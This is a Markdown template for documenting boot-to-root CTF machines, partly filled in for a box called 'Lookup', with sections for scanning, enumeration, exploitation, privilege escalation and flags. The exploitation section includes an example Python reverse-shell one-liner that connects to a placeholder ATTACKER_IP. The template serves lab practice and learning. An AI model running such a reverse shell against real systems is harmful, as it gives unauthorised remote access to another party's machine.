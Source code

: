 # Boot-to-Root Report Template (Markdown)

> Use this template to document your boot-to-root machines. Copy it into a file named `REPORT.md` or `machine-name.md`.

---

## Metadata

* **Machine Name**: Lookup
* **IP / Host**: 
* **Author**: R0b1
* **Difficulty Level**: easy
* **Goal**: B2R

---

## 1) Executive Summary

A short paragraph (2–4 lines) explaining how you obtained `user` and `root` and which main vulnerabilities were exploited.

---

## 2) Environment & Tools

* Host OS: Linux-6.16.8+kali-arm64-aarch64-with-glibc2.41
* Tools used: (nmap, gobuster, burpsuite, linpeas, smbclient, etc.)

> **Tip:** include versions if relevant.

---

## 3) Initial Reconnaissance (Scanning)

### Commands executed

```bash
nmap -sC -sV -oN nmap_initial.txt <IP>
# or
nmap -p- -T4 -oN nmap_allports.txt <IP>
```

### Ports / Services Summary

| Port | Service | Version     | Notes                    |
| ---- | ------- | ----------- | ------------------------ |
| 22   | ssh     | OpenSSH 7.x | password login disabled? |
| 80   | http    | Apache 2.x  | homepage, /robots.txt    |

---

## 4) Enumeration

Detail each service you explored: purpose, commands, results, and your interpretation.

### HTTP

* **Command**: `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`
* **Interesting pages**: `/admin`, `/uploads`, `/robots.txt`
* **Screenshots**: (link or path to `screenshots/`)

### SMB / FTP / Others

* **SMB**: `smbclient -L //<IP>`
* **FTP**: anonymous? `ftp <IP>`

---

## 5) Exploitation (User Access)

Describe step-by-step how you gained a user shell:

* Vulnerability or vector (e.g. file upload, brute-force, injection)
* Exploit used (name, exploit-db link if applicable)
* Key commands and relevant output

```bash
# Example: PHP reverse shell upload
python3 -c 'import socket,subprocess,os; s=socket.socket(); s.connect(("ATTACKER_IP",4444)); ...'
```

---

## 6) Post-Exploitation / Information Gathering

* Sensitive files found (e.g. `/home/user/.ssh/authorized_keys`, `/var/www/html/config.php`)
* Interesting users / groups
* `user.txt` flag location (omit actual flag if public)

---

## 7) Privilege Escalation (Root)

* Methods attempted (linpeas, sudo checks, SUID search, cron jobs)
* Final exploit or method (exact command + explanation)
* Final command to read `root.txt`:

```bash
cat /root/root.txt
```

---

## 8) Final Results / Flags

* `user.txt`: `path/to/user.txt` (or redacted flag)
* `root.txt`: `path/to/root.txt`

---

## 9) Timeline (Optional)

* YYYY-MM-DD HH:MM — Initial scan
* YYYY-MM-DD HH:MM — Found /uploads
* YYYY-MM-DD HH:MM — Got reverse shell

---

## 10) Lessons Learned & Notes

* What you would do differently
* Tools or techniques worth studying further
* Mistakes or pitfalls encountered

---

## 11) Evidence / Artifacts

* `screenshots/` — Screens or proof
* `pcaps/` — Network captures (if any)
* `exploits/` — Custom or modified scripts

> Add a minimal README per machine to explain reproduction steps if relevant.

---

## 12) References

* Links to CVEs, exploit-db, writeups, documentation used.

---

## Appendix (useful snippets)

Include here raw outputs (`nmap`, `sudo -l`, logs, etc.) while keeping sensitive info private.

---

